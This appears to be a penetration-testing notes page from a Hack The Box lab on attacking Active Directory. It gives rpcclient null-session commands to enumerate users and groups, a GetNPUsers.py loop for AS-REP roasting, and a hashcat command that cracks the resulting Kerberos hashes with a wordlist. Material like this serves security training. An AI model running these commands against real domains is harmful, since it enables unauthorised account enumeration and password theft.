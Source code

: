 # Active Directory

## ldapsearch

It's worth checking if the LDAP service allows anonymous binds using the ldapsearch tool

## RPC Enum

`rpcclient -U "" 10.10.10.161`

`enumdomusers` `enumdomgroups`

Query domain admins `querygroup 0x200` `querygroupmem 0x200`

Query admin `queryuser 0x1f4`

## AS-REP roasting

There is an option for an account to have the property Do not require Kerberos preauthentication or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. Ill start without the SM _or HealthMailbox_ accounts

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

`hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force`

